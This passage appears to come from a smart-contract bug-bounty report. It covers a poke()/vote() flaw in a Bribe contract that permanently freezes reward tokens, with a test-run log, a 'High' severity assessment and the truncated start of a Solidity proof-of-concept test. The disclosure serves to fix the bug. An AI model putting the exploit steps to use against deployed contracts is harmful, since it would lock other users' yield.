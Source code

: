So the totalVoting will be inflated more and the left token will be more. In this POC, the Bal balance left in the Bribe contract 50000000000000000000002 that is 1/2 of the reward amount. 

Log: 
```
  Bal balance of Bribe contract: 100000000000000000000000
  Call voter poke()
  totalVoting after poke(): % 3998814434263944902
  totalVoting after poke(): % 5998221651395917353
  totalVoting after poke(): % 7997628868527889804
  Fast forward 1 epoch
  earnedBribes1 16666666666666666666666
  Bal balance of attacker: 16666666666666666666666
  earnedBribes2 16666666666666666666666
  earnedBribes3 16666666666666666666666
  Bal balance of Alice: 16666666666666666666666
  Bal balance of Bob: 16666666666666666666666
  Bal balance of Bribe contract: 50000000000000000000002
```

# Impacts
# About the severity assessment

The impact of this vulnerability is: This bug will result in "Permanent freezing of unclaimed yield" or 'Permanent freezing of unclaimed royalties" because the reward token will be left in the Bribe contract and cannot be taken out, so it is permanently frozen in this contract. 

This bug can happen with normal users when the call the poke() in the same EPOCH as vote(). 

Or this bug can be exploited by attacker to cause this impact. 

This bug severity: High
Category: Permanent freezing of unclaimed yield or Permanent freezing of unclaimed royalties 

Capital for the attack: Gas to execute the transactions. Some amount of BPT to invest to lock to get the VeAlcx tokens. 

Easy to exploit and easy to be automated. 
        
## Proof of concept
#  Proof of concept

I created 3 test cases to demonstrate the 3 scenarios for attack and a normal scenario to clearly see the attack. 

## testBribeClaimingPoke_Hacked 
I demonstrated this attack in the test case: 

```solidity
    function testBribeClaimingPoke_Hacked() public {

        
        address attacker = address(this) ; 
        uint256 tokenId1 = createVeAlcx(address(this), TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        tokenId3 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        address bribeAddress = voter.bribes(address(sushiGauge));

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        console2.log("Bal balance of Bribe contract: %s", IERC20(bal).balanceOf(bribeAddress)); 

        address[] memory pools = new address[](1);
```